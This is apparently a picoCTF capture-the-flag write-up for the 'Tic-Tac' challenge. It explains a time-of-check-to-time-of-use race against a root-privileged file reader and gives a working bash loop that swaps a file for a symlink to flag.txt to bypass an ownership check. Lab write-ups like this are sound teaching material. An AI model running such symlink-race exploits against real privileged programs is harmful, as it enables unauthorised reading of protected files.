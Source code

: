 # picoCTF Tic-Tac

The challenge description informs us that the file runs with root privileges and can read other files owned by us.

After reviewing the source code, it becomes clear that we can exploit a **TocTou attack** (Time of Check to Time of Use). Essentially, the program checks whether we own a file. If we do, it outputs the file's content. By altering the file at the right moment, we can bypass the ownership check and replace the file with something else—for example, a symbolic link to `flag.txt`. Since the `txtreader` program runs as root, it can read the `flag.txt` file.

### The Bash Script Exploit

I created a simple Bash script to perform this attack:

```
#!/bin/bash

FILE=/home/ctf-player/attack

for i in {1..200};

do

if [ -L "$FILE" ]; then
	rm "$FILE"
fi
echo "TEST" >> "$FILE"

./txtreader "$FILE" &
rm "$FILE"
ln -s flag.txt "$FILE"
done
```

This script performs the following steps:

1. Checks if there is a symbolic link named `attack`. If it exists, it deletes the link.
2. Creates a regular file named `attack` and writes the word "TEST" to it.
3. Runs the `txtreader` program with `attack` as its argument.
4. Deletes the file `attack` and replaces it with a symbolic link pointing to `flag.txt`.

These steps are repeated multiple times in a loop, creating a race condition.

### Execution

To execute this exploit, I log into the instance via SSH, create the Bash script using `nano`, and run the script. It may take a few attempts (Took me around 15 trys), but this method reliably retrieves the flag.
